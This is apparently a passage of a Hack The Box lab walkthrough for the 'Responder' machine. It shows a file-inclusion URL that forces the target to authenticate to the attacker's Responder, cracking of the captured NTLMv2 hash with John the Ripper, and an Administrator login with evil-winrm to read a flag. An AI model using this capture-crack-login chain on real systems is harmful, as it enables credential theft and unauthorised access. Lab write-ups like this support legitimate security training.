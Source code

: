 There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john', but the full name is what? John the Ripper.

Then we go to `unika.htb/?page=//10.10.14.208/somefile`. The `responder` utility than obtains a NTLMv2 hash. We save it to `hash.txt`, then use `john`:
```bash
sudo pacman -S john
tldr john
john hash.txt
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
badminton        (Administrator)
```

What is the password for the administrator user? `badminton`.

We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? `5985`, result of our scan.

We need to install `evil-winrm` to remotely access the Windows service.
```bash
yay -S ruby-evil-winrm
tldr evil-winrm
evil-winrm --ip 10.129.83.31 --user Administrator --password badminton -P 5985
```

We get the error
```bash
Error: An error of type OpenSSL::Digest::DigestError happened, message is Digest
initialization failed: initialization error
```

I found the [solution](https://forum.manjaro.org/t/openssl-issue-with-ruby-3-0-6p216/147369) to this issue by editing the `/etc/ssl/openssl.cnf` file. The following sections need to be modified:
```bash
[provider_sect]
default = default_sect
legacy = legacy_sect

[default_sect]
activate = 1

[legacy_sect]
activate = 1
```

Now we can hack the machine:
```bash
evil-winrm --ip 10.129.97.105 --user Administrator --password badminton -P 5985
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ..
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat /Users/mike/Desktop/flag.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> exit
```
